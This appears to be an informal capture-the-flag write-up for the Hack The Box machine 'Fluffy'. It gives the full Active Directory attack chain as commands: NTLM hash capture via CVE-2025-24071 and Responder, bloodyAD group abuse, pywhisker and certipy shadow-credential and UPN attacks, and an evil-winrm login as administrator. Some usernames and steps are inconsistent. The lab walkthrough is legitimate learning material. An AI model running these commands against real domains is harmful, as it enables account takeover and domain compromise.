 Started with a nmap scan
```
53 dns
88 kerberos
139  netbios ssn 
389 AD LDAP
445
593 RPC
```
The room also gives us creds `j.fleischman:J0elTHEM4n1990!` using these creds we can enumerate users with LDAP and we got a list of users we can also get are bloodhound data now that are nmap scan is done are clock skew is off so we need to sync it we also get a domain and host name `fluffy.htb` and `DC01.fluffy.htb` when connecting to the SMB we have read/write access to the `IT` share in this share is a pdf file called `Upgrade Notice` and list some CVE that we might be able to test out and there is one we can use to exploit the system `CVE-2025-24071` and there is a PoC on github after we make are file we need to put it onto the smb and start up responder and we get the NTLM hash of another user `P.agila` and password `prometheusx-303` now we can get bloodhound data for this user and we also have `READ/Write` on the `IT` share we can use `bloddyAD` to add us to the service accounts so we can login into the user 
`bloodyAD -u p.agila -p 'password' -d fluffy.htb --dc-ip 10.10.11.69 add groupMember "Service Accounts" p.agila` now we can use `pywhisker` to get a TGT ticket `pywhisker` 
`pywhisker -t winrm_svc -a add -d fluffy.htb -u p.angila -p pass --dc-ip 10.10.11.69`
now we need to list device ids `pywhisker -d fluffy.htb -u "p.angila" -p "pass" --target "winrm_svc" --action "list"` now we need to use `gettgtpkinit.py` `python3 gettgtpkinit.py -cert-pfx "J5z084gh.pfx" -pfx-pass iQ64f0id99TF61gYArLK fluffy.htb/Winrm_svc ccache`  now we have a hash and we can use `gethash.py` `python3 getnthash.py -key (key) fluffy.htb/winrm_svc` and make sure to set your `KRB5CCNAME` in your environment and now we have the NT hash and can winrm into the user now this user is part of the service accounts and has generic Write prives on the `ca_svc` account and we can do a shadow creds attack use certipy `certipy-ad shadow -u "p.angila@fluffy.htb" -p 'pass' -dc-ip 10.10.11.69 -account "WINRM_svc"` now we need to do `certipy-ad account -u "p.angila@fluffy.htb" -p 'pass' -dc-ip 10.10.11.69 -upn 'administrator' -user 'ca_svc' update` this will set are UPN now to get the admin pfx `certipy-ad req -u ca_svc@dc01.fluffy.htb -hashes "hash" -ca fluffy-DC01-CA -template User -upn administrator@dc01.fluffy.htb -dc-ip 10.10.11.69` now we have the admin pfx `certipy-ad account -u p.agila@dc01.fluffy.htb -p pass -dc-ip 10.10.11.69 -upn ca_svc@dc01.fluffy.htb -user ca_svc update` now to get the admin hash so we can winrm `certipy-ad auth -dc-ip 10.10.11.69 -pfx admin.pfx -username administrator -domain fluffy.htb` now we have the has and can winrm and admin user `evil-winrm -i 10.10.11.69 -u administrator -H hash`    